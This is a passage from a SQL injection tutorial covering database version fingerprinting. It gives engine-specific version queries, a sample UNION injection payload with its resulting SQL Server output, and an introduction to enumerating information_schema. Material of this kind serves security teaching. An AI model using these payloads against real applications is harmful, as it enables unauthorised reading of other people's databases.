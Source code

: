 ## Querying the Database Type and Version
You can potentially identify both the database type and version by injecting provider-specific queries to see if one works. The following are some queries to determine the database version for some popular database types:

|Database type|Query|
|---|---|
|Microsoft, MySQL|`SELECT @@version`|
|Oracle|`SELECT * FROM v$version`|
|PostgreSQL|`SELECT version()`|

For example, you could use a `UNION` attack with the following input `' UNION SELECT @@version--`. Which might return the following output. In this case, you can confirm that the database is Microsoft SQL Server and see the version used:
```txt
Microsoft SQL Server 2016 (SP2) (KB4052908) - 13.0.5026.0 (X64)
Mar 18 2018 09:11:49
Copyright (c) Microsoft Corporation
Standard Edition (64-bit) on Windows Server 2016 Standard 10.0 <X64> (Build 14393: ) (Hypervisor
```
## Enumerating using Information Schema
The `information_schema` database contains metadata about the database, tables, and columns present on the server, making it a crucial step for attackers to view or enumerate when performing SQL injection vulnerabilities.

There are a couple of ways an attacker can use the `information_schema` database to fingerprint the database:
### Query `schemata` table to list all databases
